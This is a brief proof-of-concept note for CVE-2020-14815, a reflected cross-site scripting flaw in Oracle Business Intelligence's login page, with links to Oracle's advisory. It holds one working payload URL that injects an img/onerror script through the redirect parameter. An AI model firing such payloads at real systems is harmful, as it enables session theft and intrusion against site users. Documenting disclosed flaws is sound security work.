 # CVE-2020-14815 Oracle Business Intelligence XSS

CVE-2020-14815 Oracle Business Intelligence XSS

PoC：

```
https://target[.]com/bi-security-login/login.jsp?msi=false&redirect="><img/src/onerror%3dalert(document.domain)>
```

![](media/16097303376686/16097303534400.jpg)


ref：

https://www.oracle.com/security-alerts/cpuoct2020.html

https://twitter.com/HackerOn2Wheels/status/1326927875279380480